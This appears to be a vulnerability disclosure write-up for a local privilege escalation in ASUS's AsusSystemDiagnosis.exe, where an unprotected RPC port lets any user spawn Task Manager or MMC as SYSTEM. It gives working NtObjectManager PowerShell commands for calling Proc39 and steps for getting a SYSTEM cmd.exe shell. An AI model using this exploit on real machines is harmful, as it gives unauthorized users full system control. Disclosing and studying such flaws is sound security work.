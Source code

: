 Privilege Escalation - AsusSystemDiagnosis.exe - Proc39()

Full Path: C:\WINDOWS\System32\DriverStore\FileRepository\asussci2.inf_amd64_d385bdc0d33d66f9\ASUSSystemDiagnosis\AsusSystemDiagnosis.exe

Issue: 

The ALPC Port \RPC Control\ASHWTestServer, exposed by AsusSystemDiagnosis.exe is fully accessible to any user. Calling Proc39() via RPC through this port spawns a taskmgr.exe process as SYSTEM in the current user's session.

Exploitation:

Utilizing Project Zero's NtObjectManager RPC tool from https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools (make sure you take the compiled release) the vulnerable RPC port can be connected to at which point Proc39() can be called. Once the SYSTEM taskmgr.exe process is spawned a cmd.exe shell can be created by utilizing the "Run New Task" functionality via the context menu, File > Run New Task > cmd.exe.

NtObjectManager:

$server = get-rpcserver C:\WINDOWS\System32\DriverStore\FileRepository\asussci2.inf_amd64_d385bdc0d33d66f9\ASUSSystemDiagnosis\AsusSystemDiagnosis.exe

$client = get-rpcclient $server

$client.connect()

$client.Proc39()

Privilege Escalation - AsusSystemDiagnosis.exe - Proc40()

Same as above but spawns mmc.exe as system. Can either create a new task or use the browse functionality to open a explorer.exe window and execute cmd.exe from the address bar.


Additional Notes:

Proc53() - spawns systemreset.exe as SYSTEM
Proc54() - spawns RecoveryDrive.exe as SYSTEM
